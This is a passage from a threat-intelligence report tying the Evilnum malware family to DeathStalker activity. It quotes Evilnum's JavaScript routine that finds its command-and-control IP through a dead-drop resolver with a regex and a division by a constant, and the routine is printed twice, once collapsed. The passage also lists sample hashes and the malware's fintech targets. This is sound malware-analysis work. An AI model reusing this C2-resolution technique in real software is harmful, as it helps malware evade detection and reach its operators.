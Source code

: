 
Evilnum
Another possible connection worth investigating concerns the more recent Evilnum malware family, which was the subject of an in-depth blog post from ESET last July, as well as a couple of our own private reports. ESET’s post details another LNK-based infection chain leading to the execution of Javascript-based malware. Again, we obtained an old Evilnum sample (219dedb53da6b1dce0d6c071af59b45c) and observed that it also obtained C&C information from a dead drop resolver (GitHub) to obtain an IP address converted with the following code:





function extract_srvaddr() {
  serverFound = false;
  pattern = 'our news start at (.*) thank you';
  while(serverFound == false) {
    var item = items[Math.floor(Math.random()*items.length)];
    var html = get_page_content_with_ie(item,'');
    if(html != '') {
      var match = extract_string(pattern, html);
      if(match != null) {
      srv = num2dot(match[1]/666); // NB: divide integer by a constant
      srv = srv + "/Validate";
      srv_stat = get_page_content_with_ie(srv+"/ValSrv", '');
      validate_str = extract_string('youwillnotfindthisanywhare', srv_stat);
      if(validate_str == 'youwillnotfindthisanywhare') {
        serverFound = true;
        return srv;
      }
    }
  }
}




1234567891011121314151617181920

function extract_srvaddr() {  serverFound = false;  pattern = 'our news start at (.*) thank you';  while(serverFound == false) {    var item = items[Math.floor(Math.random()*items.length)];    var html = get_page_content_with_ie(item,'');    if(html != '') {      var match = extract_string(pattern, html);      if(match != null) {      srv = num2dot(match[1]/666); // NB: divide integer by a constant      srv = srv + "/Validate";      srv_stat = get_page_content_with_ie(srv+"/ValSrv", '');      validate_str = extract_string('youwillnotfindthisanywhare', srv_stat);      if(validate_str == 'youwillnotfindthisanywhare') {        serverFound = true;        return srv;      }    }  }}




We can’t help but notice the pattern of looking for a specific string using a regular expression to obtain an integer, then dividing this integer by a constant resulting in the IP address of the C&C server. While Evilnum provides more capabilities than Powersing, it can also capture screenshots and send them to the C&C server.
In terms of victimology, Evilnum focuses on companies in the Fintech sector. It appears to be more interested in business intelligence than financial gain. This is consistent with the DeathStalker activity we’ve observed thus far.
One final connection we want to mention is that recent Evilnum (835d94b0490831da27d9bf4e9f4b429c) and Janicab samples have some slight code overlaps, despite being written in different languages:

